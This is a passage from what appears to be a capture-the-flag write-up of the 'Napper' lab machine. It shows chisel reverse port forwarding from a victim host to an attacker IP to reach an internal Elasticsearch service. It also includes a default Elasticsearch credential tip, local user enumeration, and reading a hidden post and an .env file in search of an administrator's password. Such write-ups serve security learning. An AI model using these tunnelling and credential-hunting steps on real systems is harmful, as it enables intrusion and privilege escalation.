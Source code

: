 > **Attacker Machine:**

```bash
./chisel server --reverse -p 1234                         
```

> **Victime Machine:**

```cmd
.\chisel.exe client 10.10.14.152:1234 R:9200:127.0.0.1:9200
```

> **Attacker Machine:**

```bash
lsof -i:9200        :)

# google.es --> elasticsearch default password                
# elastic:changeme        :(
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_045.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_046.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_047.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_048.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_049.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_050.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After a long time, walking around without sense, I find in the **Temp** folder in the main **Windows** directory, with the resources of the web services of the machine. In a folder I find files written in **[Markdown](https://www.markdownguide.org/getting-started/){:target="_blank"}** language that clearly correspond to the posts of the page with subdomain **app** and in another folder with those of the **internal** web page, but in this last one I find a post that was hidden, that mentions that the password of the `backup` user is stored in the **Elasticsearch** Database. The above mentioned user belongs to the **Administrators** group, which tells me that I perform a **User Pivoting** to him I am going to **pwn** the box. Also in the contents of a folder with an `.env` file that stores credentials and a very strange binary **`a.exe`** (that I am going to transfer to my machine to perform a debugging), the user and password are useful to log in to **Elasticsearch**.

> **Victime Machine:**

```cmd
cd C:\Temp\www\internal\content\posts\
type no-more-laps.md
#    --> The password for the backup user will be stored in the local Elastic DB.

net users
net user backup
#    --> Local Group Memberships      *Administrators      :)

cd C:\Temp\www\internal\content\posts\internal-laps-alpha
more .env
#      --> a.exe     ??
.\a.exe
certutil -hashfile a.exe MD5
```

